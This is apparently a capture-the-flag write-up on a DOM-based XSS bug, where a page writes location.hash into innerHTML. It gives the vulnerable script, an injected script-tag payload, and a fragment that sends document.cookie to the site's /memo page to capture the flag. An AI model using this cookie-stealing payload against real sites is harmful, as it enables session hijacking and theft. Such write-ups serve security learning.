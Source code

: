 # XSS-DOM

At first, we can see that there is an serious xss vuln in the /vuln page

```
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
 </script>
```

You can create a script with an id "name" and insert a code after the tag. The malicious code will automatically execute

```
<script id="name">
alert(123);
</script>
```

So we only need to inject this payload to get the cookie that contain the flag

Before the #:

```<script id= "name"></script>

```

After the #: location='/memo?memo='+document.cookie//

You can find the flag on your own
